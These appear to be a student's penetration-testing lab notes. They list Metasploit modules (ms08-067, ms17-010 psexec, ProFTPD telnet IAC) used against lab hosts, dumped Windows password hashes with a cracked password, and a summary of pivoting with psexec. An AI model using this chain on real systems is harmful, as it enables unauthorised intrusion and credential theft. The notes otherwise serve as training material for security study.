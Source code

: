  - You can start Nessus Scanner by typing /bin/systemctl start nessusd.service
 - Then go to https://kali:8834/ to configure your scanner

search ms08-067-netapi 

```

Administrator:500:6df60586675b97c51f6252914a7633d7:fc5399dc481550f5442d1585e10c0345:::
elsuser:1005:aad3b435b51404eeaad3b435b51404ee:04820cccb2ea44ad7e60f97961fba7e1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:a88f7de3e682d17fea34bd03086620b5:2b07e52daf608f50d4cd9506c5b0220d:::
netadmin:1004:a4fd0910b9418e67d342ec751ef6b28d:6757a9560a881a505b9fa7bfadd88874:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:9f79c84005db73e0122f424022f8dbc0:::

```


netadmin:CONGRAT0905

```
Username    Domain     LM                            NTLM                          SHA1
--------    ------     --                            ----                          ----
ELS-WINXP$  WORKGROUP  aad3b435b51404eeaad3b435b514  31d6cfe0d16ae931b73c59d7e0c0  da39a3ee5e6b4b0d3255bfef95601
                       04ee                          89c0                          890afd80709

```


http://www.darkoperator.com/blog/2011/12/16/psexec-scanner-auxiliary-module.html
	// tried to use, without success
	//seems old 2011, anyway I did one by one instead

resume:
	one machine was winxp, so we got access with ms08-067-netapi 
	then we grabbed the hashes and use psexec to enter in other 2 machines
	the last one was a ftp server, we searched the version in metasploit and got access too.

```
ms08-067-netapi 
```
	//used For 10.50.97.5


```
exploit(windows/smb/ms17_010_psexec

```
	//used For 10.50.97.8,14

```
exploit(freebsd/ftp/proftp_telnet_iac) > run
```

	//used For 10.50.97.21
	PORT   STATE SERVICE VERSION
	21/tcp open  ftp     ProFTPD 1.3.2a

## Lab Nessus
myip: 192.168.78.100
network: 192.168.78.01/24
dmz: 10.100.0.0/24
